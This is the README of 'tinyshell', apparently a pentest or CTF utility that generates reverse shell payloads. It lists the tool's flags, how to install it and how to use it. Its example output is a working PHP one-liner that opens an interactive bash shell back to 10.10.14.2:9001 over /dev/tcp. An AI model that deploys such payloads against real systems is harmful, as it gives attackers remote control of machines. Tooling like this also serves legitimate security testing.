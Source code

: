 # tinyshell 🐚
```
NAME:
   tinyshell - generate reverse shell payloads!

USAGE:
   tinyshell

OPTIONS:
   --port string, -p string     set the port on the listener
   --address string, -a string  set the address the shell should connect to
   --type string, -t string     payload type
   --help, -h                   show help

```

-----

## Installation
tinyshell runs on Windows, MacOS, and of course, Linux. 

v1 will include the ability to install via package managers like apt and yum. However, each release includes binaries for the above supported OS's. 

### Binary
Install the latest binary for your target architecture from the [releases page](https://github.com/OtterWiz/tinyshell/releases) 
### Go
Have Go installed? Well here you *go*:

```bash
go install github.com/OtterWiz/tinyshell@latest
```



-----

## Usage

The tool requires three flags to generate a payload: address, port, and type.

Example: `tinyShell --port 9001 --address 10.10.10.10 --type php`

### Supported Payloads (so far...)

  * `bash`
  * `php`

-----

## Examples

### 1\. Generating a PHP Payload
To generate a PHP reverse shell payload that connects to `10.10.14.2` on port `9001`:

To generate a PHP reverse shell payload for the same listener:

**Command:**

```bash
tinyshell -a 10.10.14.2 -p 9001 -t php
```

**Output:**

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1'");
```